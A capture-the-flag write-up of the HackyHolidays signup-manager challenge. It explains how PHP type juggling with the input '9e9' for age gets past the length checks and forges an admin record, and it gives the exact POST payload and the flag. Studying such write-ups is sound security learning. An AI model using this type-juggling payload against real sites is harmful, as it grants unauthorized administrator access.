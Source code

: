 Comment in the home page reveals existence of a `README.md` file4:

```
<!-- See README.md for assistance -->
<!DOCTYPE html>
...
```

This file describes the signupmanager source code which is readily available as `signupmanager.zip`.

It is clear that we have to create a user that has admin rights, but it seems not possible to overflow the string length, given that all paramters are quite strongly filtered:

- password is hashed
- username, first and last name are all subject to length restrictions, for instance

```
$fistname=substr(preg_replace('/([^a-zA-Z0-9])/', '', $_POST["firstname"]), 0, 15);
```

It remains only the age paramter which is subject to these restrictions and conversions:

```
if (!is_numeric($_POST["age"])) {
	$errors[] = 'Age entered is invalid';
}
if (strlen($_POST["age"]) > 3) {
	$errors[] = 'Age entered is too long';
	
$age = intval($_POST["age"]);
}
```
Apparentely it won't be possibile to get an "overflow" but PHP is not strongly typed an setting age **9e9** we pass first check (it's a numeric value, in scientific notation), and as a string it's only 3 characters long. But fortunately for us

```
php > print intval("9e9");
9000000000
```

With this in mind, we are able to get correct length for lastname in order to have a Y as last character of our user line written on disk:

The following paylod finally gives us a valid admin user

```
POST /signup-manager/ HTTP/1.1
Host: hackyholidays.h1ctf.com

action=signup&username=grinch54321&password=a&age=9e9&firstname=aaa&lastname=bbbbbbbbY
```

The flag was

```
<p class="text-center">flag{99309f0f-1752-44a5-af1e-a03e4150757d}</p>
<p class="text-center">You made it through, continue to your next task <a href="/r3c0n_server_4fdk59">here</a></p>
            </div>
```
